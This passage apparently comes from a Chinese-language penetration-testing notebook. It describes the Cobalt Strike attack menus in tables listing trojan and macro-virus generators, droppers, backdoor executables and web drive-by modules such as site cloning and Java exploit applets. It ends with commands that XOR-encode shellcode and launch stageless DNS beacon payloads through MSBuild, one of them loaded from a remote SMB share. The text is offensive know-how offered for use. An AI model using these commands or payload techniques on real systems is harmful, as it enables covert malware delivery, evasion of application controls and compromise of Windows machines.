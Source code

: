 ![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/215.png)

|名称   |功能   |
| ----------| ----------|
|HTML Application   |基于powershell的.hta格式的HTML Application木马，分为可执行文件、PowerShell、VBA三种方法   |
|MS Office Macro  |office宏病毒文件   |
|Payload Generator   |基于C、C#、COM Scriptlet、Java、Perl、PowerShell、Python、Ruby、VBA等语言的payload   |
|USB/CD AutoPlay   |利用USB/CD自动播放运行的木马   |
|Windows Dropper   |捆绑器   |
|Windows Executable   |生成32位或64位的exe和基于服务的可执行文件、DLL等后门   |
|Windows Executable(S)   |生成可执行文件，支持powershell脚本，提供代理功能   |

	Web Drive-by基于WEB的攻击模块

|名称   | 功能  |
| ----------| ----------|
|Manage   |管理开启的模块  |
|Clone Site   |克隆网站   |
|Host File   |提供文件下载   |
|Scripted Web Delivery   |基于Web的攻击Payload   |
|Signed Applet Attack   |运行java自签名的攻击模块   |
|Smart Applet Attack   |自动检测Java版本并利用已知的exploits攻击   |
|System Profiler   |信息探测模块   |

	自定义payload
	* Attacks > Packages > Payload Generator 
	* Attacks > Packages > Scripted Web Delivery (S)
	$ python2 ./shellcode_encoder.py -cpp -cs -py payload.bin MySecretPassword xor
	$ C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe C:\Windows\Temp\dns_raw_stageless_x64.xml
	$ %windir%\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe \\10.10.10.10\Shared\dns_raw_stageless_x86.xml
